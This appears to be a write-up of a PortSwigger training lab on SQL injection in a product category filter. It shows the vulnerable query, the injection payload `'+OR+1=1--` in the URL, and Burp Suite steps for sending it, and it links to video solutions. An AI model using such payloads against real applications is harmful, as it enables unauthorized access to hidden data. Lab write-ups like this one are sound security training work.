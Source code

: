 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

![sqli lab.png](./image/sqli_lab.png)

# Attack

![screenshot00](./image/screenshot00.png)

![screenshot01](./image/screenshot01.png)

## Attack Query

```sql
/filter?category=Accessories'+OR+1=1--
```

![lab solved.png](./image/lab_solved.png)

# Other Solutions

## Burp Suite

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Modify the `category` parameter, giving it the value `'+OR+1=1--`
3. Submit the request, and verify that the response now contains additional items.

## Community Solution

Rana Khalil

[SQL Injection - Lab #1 SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://youtu.be/X1X1UdaC_90)

Michael Sommer

[SQL injection vulnerability in WHERE clause allowing ... (Video solution & Audio)](https://youtu.be/U1tfxVGLPAs)

# Resources

[SQL Injection | Complete Guide](https://youtu.be/1nJgupaUPEQ)

[SQL Injection - Lab #1 SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://youtu.be/_rCg_-gsQOA)

